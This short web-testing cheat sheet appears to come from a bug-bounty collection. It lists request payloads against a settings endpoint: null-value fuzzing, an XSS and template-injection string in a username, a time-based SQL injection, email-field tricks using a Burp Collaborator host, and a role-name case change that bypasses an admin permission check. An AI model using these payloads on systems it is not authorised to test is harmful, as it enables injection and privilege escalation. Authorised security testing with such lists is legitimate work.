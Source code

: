 ##### Null Payload Everywhere to get weird response
````
POST /settings

email, user, pass, or phone=NULL&token=csrf
````
##### Injecting XSS, SSTI payload in username or name field
````
POST /settings

username='''><svg/onload=prompt('xss');>{{7*7}}&token=csrf
    OR 
   only ssti payload in username
 username={{7*7}}
 
````
##### SQLI payload in Username field
````
POST /settings

username=' or sleep(20)'&token=csrf
````
##### If there is option to add second email, add with company email
````
POST /settings

email= any@company.com&action=add

email=samsec@gmail.com@company.com
email=any@burpcollaborator.net

````
##### CASE SENSITIVE IDORS [If Role change option is there and using admin throw no permission, try chaning case of admin to (Admin)]
````
POST /user/changeroles

{"id"=10,"role"="admin"}               response: {"error":"no_permission"}


change to 
{"id"=10,"role"="Admin"}                response: {"status":"OK"}
````
